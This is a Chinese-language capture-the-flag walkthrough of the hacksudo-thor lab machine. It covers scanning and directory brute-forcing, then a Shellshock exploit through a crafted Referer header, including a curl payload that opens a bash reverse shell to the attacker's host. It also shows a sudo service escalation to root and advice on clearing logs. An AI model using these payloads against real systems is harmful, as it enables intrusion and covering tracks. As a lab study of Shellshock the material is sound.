# 前言

靶机：`hacksudo-thor`

攻击：`kali`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`


# 信息收集

## 使用nmap扫描端口



- 21端口ftp服务可能打开
- 22端口ssh服务
- 80端口http服务

## 网站探测

访问80端口，只有一个登录界面



查看页面源代码内容，这里页面源代码内容可能不是详细，所以以调式查看，发现一个点击会触发`JS`代码



查看当前有无该内容，找到函数，不过在其上方的内容值得关注



也就是在JS函数中，调用了上面的内容，当快速点击`logo`很多次时触发


翻译其英文，发现一个名称`georgie`


不过源代码中也确定了网站为目录型网站，脚本语言`php`

使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具扫描目录


查看`README.md`文件，为了方便展示，这里截图截取重要信息，并为了理解，翻译成中文



访问`admin_login.php`，确定不一样的登录界面



访问`contact.php`，发现两个名称，记录下



想着使用`cewl`爬取，来充当字典，但是这个有点多

几个用户名和密码总结，密码是根据`README.md`中制造

| 用户名    | 密码          |
| --------- | ------------- |
| `admin`   | `password123` |
| `georgie` | `georgie123`  |
| `vishal`  | `vishal123`   |
| `care`    | `care123`     |

测试发现，在`admin_login.php`中，以`admin`登录成功，测试功能，发现有用户管理，发现了几个用户，好家伙，我是一个都没猜中



看一下和`README.md`的是否一样，不过查看后，发现只有一个用户名是这样设置的


以这四个用户登录`home.php`，看有什么不一样，测试后发现无差别，`admin`可以操作所有。

但是到这里没有找到利用点，可以上传`xss`，但是已经以`admin`登录了，上传的`xss`是在`news.php`中显示。

查看项目源码，也是没发现什么，然后，看了网上的wp，我服啦，在`news.php`页面源代码中有`cgi-gin`，我当时还查看了页面源代码，但是没有发现，但是以开发者工具打开，一眼就看见了，啧，烦



# 漏洞寻找

不过这里网上还在网站目录扫描时，发现`cgi-bin`目录，啧，我这真的，`403`有的是可以绕过的，不该过滤，重新扫描

```shell
gobuster dir -u http://192.168.1.54 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,tar -b 404
```



继续扫描`cgi-bin`目录下有无可用

```shell
gobuster dir -u http://192.168.1.54/cgi-bin -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,cgi,sh -b 404
```



使用`nmap`中的脚本进行检测，nmap中的一些漏洞检测都是可以的

```shell
nmap -sV -O 192.168.1.54 -p80 --script=http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=ls
```




再测试`shell.sh`是否可利用，也是可用的



使用`searchsploit`发现有脚本可用，但是是`msf`中的，这个尽量不依赖`msf`，所以这里另择方法

这里可以利用`curl`这个命令，下面是探测是否可用的方法，不过也是利用方法。

前面使用`nmap`探测时，nmap中有提示，可在`header`中利用，也就是`http`的头中

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```


# 漏洞利用

那么这里把`id`命令改成反弹就可以了，或者生成一个`bash`脚本文件，命令解析放在总结

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1';exit"
```



# 靶机内信息收集

之前有一个`connect.php`文件，说是连接数据库的，切换到网站目录


查看网络状态



查看备份目录以及有哪些用户



寻找具有SUID权限的文件，发现`sudo`，并且还不需要输入密码就可以使用，不过用户非`root`



# 提权

## 提权至thor

以身份`thor`的`sudo`权限执行，发现是一次性的



那么`id`可用，直接使用`bash`能否吊起一个`thor`的终端，发现可以，成功为`thor`


使用`python`获取交互式界面

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

然后直接使用`sudo -l`测试，毕竟之前都无需密码，测试一下，发现也不需要，并且两个`root`的文件


## 提权至root

对于`cat`命令，是进行读取文件的，当然可以读取敏感文件，不过这里利用另一个`service`

用法`sudo service ../../bin/sh`




# 清除痕迹

各种日志




若是上传了文件什么的，改回即可


# 总结

1. 信息收集要全面，目录不要放过状态码除404以外的
2. `cgi-bin`涉及的一些漏洞，如这里的`bash`
3. 主要考察的就是`shellshock`破壳，有`cve`编号


CGI - Bin（公共网关接口二进制文件目录）是 Web 服务器用来存放 CGI 脚本的目录。在传统的 Web 服务器配置中，它是一个正常的目录结构，用于支持服务器端脚本的执行，这些脚本可以用来实现动态网页内容、处理表单数据等多种功能。

例如，在早期的网站中，用户通过网页提交的表单数据，可能会在 CGI - Bin 目录中的脚本进行处理，将数据存储到数据库或者生成动态的 HTML 页面返回给用户。

Shellshock 漏洞

- Shellshock 漏洞主要影响 Bash（Bourne - Again Shell），这是一种在 Unix - like 系统（如 Linux）中广泛使用的命令行解释器。该漏洞的核心问题在于 Bash 错误地处理了环境变量的定义方式，使得攻击者可以通过在环境变量中注入恶意代码，让服务器执行这些恶意命令。


- CGI 脚本执行环境
  - CGI - Bin 目录中的文件通常是可执行的脚本，用于在服务器端处理用户请求，例如生成动态网页内容。这些脚本需要在服务器环境中运行，并且通常会调用系统的命令行工具或其他程序来完成复杂的任务。
  - 在许多 Web 服务器配置中，当一个请求指向 CGI - Bin 目录中的脚本时，服务器会启动一个新的进程或者在特定的执行环境中来运行这个脚本。如果这个脚本是用 Bash 或者调用了 Bash（这种情况很常见，因为 Bash 是一个功能强大的命令解释器），那么就有可能受到 Shellshock 漏洞的影响。
- 漏洞利用途径
  - 当一个包含恶意构造的环境变量的 HTTP 请求被发送到运行在 CGI - Bin 目录中的 Bash 脚本时，由于 Shellshock 漏洞的存在，Bash 会错误地解析这个环境变量，从而执行其中包含的恶意命令。
  - 例如，一个典型的利用场景可能是，攻击者发送一个带有恶意环境变量（如 “() { :;}; echo 'Vulnerable'”）的请求到 CGI - Bin 中的一个脚本。如果这个脚本是在一个易受 Shellshock 影响的 Bash 环境中运行，服务器就会执行 “echo 'Vulnerable'” 这个命令，从而证明存在 Shellshock 漏洞。

```shell
curl -v http://192.168.1.54/cgi-bin/shell.sh -H "Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit"
```

使用 `curl` 工具发起 `HTTP` 请求的命令，目的是访问位于 `192.168.1.54` 主机上 `cgi-bin` 目录下的 `shell.sh` 脚本资源，并且通过设置请求头（`-H` 参数）传递了特定构造的内容，很可能是在尝试进行某种漏洞利用或者测试相关操作。

`curl` 基本参数及作用

- `-v` 参数
  - 功能：用于启用详细模式（verbose mode）。当添加这个参数后，`curl` 在执行请求的过程中会输出详细的交互信息，比如发送请求的具体细节，包括请求头信息、它尝试连接目标服务器的过程，以及接收到的服务器响应信息（如响应头、响应状态码、响应内容等）。这样有助于排查请求过程中出现的问题或者深入了解请求与响应的具体情况，方便调试和分析。
- `http://192.168.1.54/cgi-bin/shell.sh`
  - 这部分指定了请求的目标 `URL`。其中 `http://` 表明使用的是 `HTTP` 协议，`192.168.1.54` 是目标服务器的 `IP` 地址，`/cgi-bin/shell.sh` 则是服务器上的具体资源路径，也就是要访问的 `CGI` 脚本文件。访问 `CGI` 脚本通常意味着希望服务器执行该脚本并返回相应的结果，不过这也取决于脚本的具体功能以及服务器的配置情况。

`-H` 参数及构造的请求头内容分析

- `-H` 参数（设置请求头）
  - 功能：通过这个参数可以向 `HTTP` 请求中添加自定义的请求头信息。请求头在 `HTTP` 通信中起到传递额外元数据的作用，例如告知服务器客户端的一些属性、期望的响应格式、请求的来源等信息，服务器可以根据这些请求头来做出相应的处理决策。
- `Referer:() { test; }; echo 'Content-Type: text/plain'; echo; echo; /usr/bin/id;exit` 具体请求头内容
  - 潜在漏洞利用意图
    - 整体构造看起来像是在尝试利用某种脚本相关的漏洞，比如类似于 `Shellshock` 漏洞的利用方式（前面提到过 `Shellshock` 漏洞可以通过在环境变量等地方注入恶意代码来执行任意命令）。这里在 `Referer` 请求头中构造了一段特殊的代码，其中 `() { test; };` 这种形式有点类似函数定义的写法，后面跟着输出 `Content-Type: text/plain` 来设置响应内容的类型为纯文本格式，再通过连续的 `echo` 输出空行，然后关键的是 `/usr/bin/id` 这条命令，`id` 命令常用于在类 `Unix` 系统（如 `Linux`）中查看当前用户的身份信息（包括用户 ID、组 ID 等）。最后的 `exit` 用于结束脚本执行（如果能成功执行到这一步的话）。
    - 其可能的目的是，如果目标服务器上的 `shell.sh` 脚本或者其执行环境存在漏洞（例如没有对请求头中的特殊构造进行正确处理），那么服务器可能会错误地执行这段注入的代码，进而执行 `/usr/bin/id` 命令，并返回相应的执行结果（比如当前用户的 `UID` 和 `GID` 等信息），攻击者就可以通过查看响应来判断漏洞是否被成功利用以及获取相关系统信息。

当然使用nmap的扫描也是可以的，不过不做补充了


